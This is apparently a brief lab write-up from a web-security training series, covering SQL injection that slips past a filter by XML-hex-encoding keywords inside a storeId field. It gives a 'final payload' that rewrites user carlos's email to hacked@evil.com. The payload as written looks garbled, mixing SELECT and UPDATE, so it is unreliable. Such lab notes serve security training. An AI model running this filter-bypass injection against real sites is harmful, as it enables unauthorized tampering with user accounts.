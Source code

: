 # Lab 16: SQL Injection with Filter Bypass via XML Encoding

* **Solution**: Encode an UPDATE query in XML hex (&#x53; for “S”) within the storeId field to change the logged-in user’s email.
* **Final Payload**:
  * <storeId>1 &#x53;ELECT UPDATE users SET email='hacked@evil.com' WHERE username='carlos'</storeId>
